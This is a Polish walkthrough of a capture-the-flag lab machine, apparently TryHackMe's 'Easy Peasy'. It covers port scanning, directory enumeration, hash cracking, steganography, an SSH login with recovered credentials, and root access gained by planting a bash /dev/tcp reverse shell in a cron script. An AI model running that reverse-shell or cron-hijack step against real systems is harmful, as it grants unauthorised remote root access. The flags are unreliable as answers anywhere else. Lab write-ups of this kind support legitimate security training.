










# Easy Peasy

IP=10.10.158.179

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -p- 10.10.158.179
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-09 05:41 EDT
Nmap scan report for 10.10.158.179
Host is up (0.049s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 52.41 seconds
```

Przeprowadzamy bardziej szczegółowy skan:

```
sudo nmap -p 80,6498,65524 -sV -sC 10.10.158.179
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-09 05:43 EDT
Nmap scan report for 10.10.158.179
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Zostały wykryte 3 porty. Wersja nginx to 1.16.1, a na najwyższym porcie działa usługa Apache.

## Skanowanie

### Port 80

Rozpoczynamy od sprawdzenia portu 80:


Jest to domyślna strona nginx. Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.158.179/FUZZ -c  -recursion
```


Program wykrył dwa katalogi. Przechodzimy do katalogu /hidden/whatever:


Znajdujemy tutaj fotografię. Sprawdzamy źródło strony:


Widzimy ukryty ciąg znaków zakodowany algorytmem Base64, który dekodujemy przy pomocy [CyberChef'a](https://gchq.github.io/CyberChef/):


Odczytujemy pierwszą flagę:

```
flag{f1rs7_fl4g}
```

### Port 65524

Przechodzimy do sprawdzenia portu 65524. Jest to domyślna strona Apache'a:


Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.158.179:65524/FUZZ -c -recursion
```


W pliku robots.txt w polu User-Agent znajdujemy ciekawy ciąg znaków przypominających hash:


```
a18672860d0510e5ab6699730763b250
```

Korzystamy z [dekodera online](https://md5hashing.net/), aby złamać hash'a w formacie MD5. Otrzymujemy drugą flagę:


```
flag{1m_s3c0nd_fl4g}
```

W źródle domyślnej strony Apache'a znajdujemy trzecią flagę oraz pewną ukrytą notkę:


```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```


```
ObsJmP173N2X6dOrAgEAL0Vu
```

Dekodujemy ciąg znaków przy pomocy [CyberChef'a](https://gchq.github.io/CyberChef/):


```
/n0th1ng3ls3m4tt3r
```

Przechodzimy do ukrytej lokalizacji, która zawiera dwa zdjęcia:


W źródle strony znowu znajdujemy ciąg znaków przypominających hash:



Korzystamy z [dekodera online](https://md5hashing.net/), aby złamać hash'a w formacie GOST. Otrzymujemy hasło:



```
mypasswordforthatjob
```

Pobieramy zdjęcia i za pomocą narzędzia steghide, wydobywamy ukryte informacje przy użyciu zdobytego hasła:



```
steghide --extract -sf binarycodepixabay.jpg 
```

Korzystając z [CyberChef'a](https://gchq.github.io/CyberChef/) dekodujemy hasło do serwisu SSH:



```
iconvertedmypasswordtobinary
```

### Port 6498

Logujemy się do serwisu SSH przy pomocy zdobytych danych:

```
boring:iconvertedmypasswordtobinary
```

W katalogu domowym użytkownika boring znajdujemy czwartą flagę, którą dekoduejmy przy użyciu [CyberChef'a](https://gchq.github.io/CyberChef/):



```
synt{a0jvgf33zfa0ez4y}
```



```
flag{n0wits33msn0rm4l}
```

Przechodzimy do katalogu /var/www, w którym znajduje się plik .mysecretcronjob.sh:



Plik został stworzony przez użytkownika boring, zatem możemy go edytować przy pomocy komendy nano ustawiając reverse shell'a:



```
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

Ustawiamy nasłuchiwanie na wybranym porcie i po chwili uzyskujemy dostęp do serwera jako użytkownik root:



W katalogu domowym użytkownika root znajdujemy piątą flagę:



```
flag{63a9f0ea7bb98050796b649e85481845}
```

Do zobaczenia na kolejnych CTF-ach!
